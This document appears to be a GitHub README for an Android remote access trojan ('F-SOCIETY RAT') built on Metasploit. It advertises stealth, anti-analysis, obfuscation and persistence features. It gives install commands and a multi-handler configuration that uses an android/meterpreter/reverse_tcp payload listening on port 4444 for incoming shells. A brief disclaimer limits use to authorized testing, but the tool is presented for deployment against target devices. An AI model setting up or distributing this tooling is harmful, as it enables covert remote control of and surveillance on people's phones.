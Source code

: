 ## F-SOCIETY RAT
https://img.shields.io/badge/F--SOCIETY-RAT-red
https://img.shields.io/badge/Metasploit-Android-blue
https://img.shields.io/badge/Security-Testing-orange

A powerful Remote Administration Tool (RAT) built on the Metasploit Framework specifically designed for Android penetration testing and security assessment.

**⚠️ DISCLAIMER**
This tool is developed for educational and authorized security testing purposes only.

Only use on devices you own or have explicit written permission to test

Unauthorized access to computer systems is illegal

The developers are not responsible for any misuse of this software

Users must comply with all applicable laws and regulations

**🚀 Features**
Metasploit Integration: Built on top of the powerful Metasploit framework

Android Targeting: Specifically designed for Android devices

Multiple Payload Options: Various payload types for different scenarios

Easy Deployment: Simple setup and deployment process

Stealth Operations: Designed to run discreetly on target devices


**📋 Prerequisites**
Before installation, ensure you have:

Kali Linux or any Linux distribution

Metasploit Framework installed

Android SDK (for certain advanced features)

Ruby 2.7+

Minimum 4GB RAM

2GB free disk space




🔧 Installation Process
Method 1: Automated Installation (Recommended)
bash
# Clone the repository
git clone https://github.com/Athexhacker/f-society-rat.git
cd f-society-rat

# Run This Fisrt
`chmod +x set-up.sh`

# Run the installation script
`bash install_requirements.sh`
# Run Finall Command
`bash run.sh`


**Method 2: Metasploit Installation**
bash
# Update system packages
`sudo apt update && sudo apt upgrade -y`

# Install Metasploit (if not already installed)
`bash set-up.sh`

# Clone F-SOCIETY RAT
git clone https://github.com/Athexhacker/f-society-rat.git
cd f-society-rat

# Run and enjoy
bash run.sh





**Method 3: Docker Installation**
bash
# Pull the Docker image
docker pull your-dockerhub/f-society-rat:latest

# Or build from Dockerfile
docker build -t f-society-rat .

# Run the container
docker run -it --name f-society-rat -p 4444:4444 f-society-rat




🛠️ Configuration
Database Setup
bash
# Initialize Metasploit database
sudo msfdb init

# Start database service
sudo systemctl start postgresql
sudo systemctl enable postgresql

# Use the multi-handler
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit



## 🔒 Security Features
Payload Obfuscation: Advanced obfuscation techniques

Anti-Analysis: Detection evasion methods

Persistence: Various persistence mechanisms

Encryption: Secure communication channels

## Remember: With great power comes great responsibility. Use this tool ethically and legally.

<div align="center">
F-SOCIETY RAT - Power in your hands, responsibility in your heart

</div>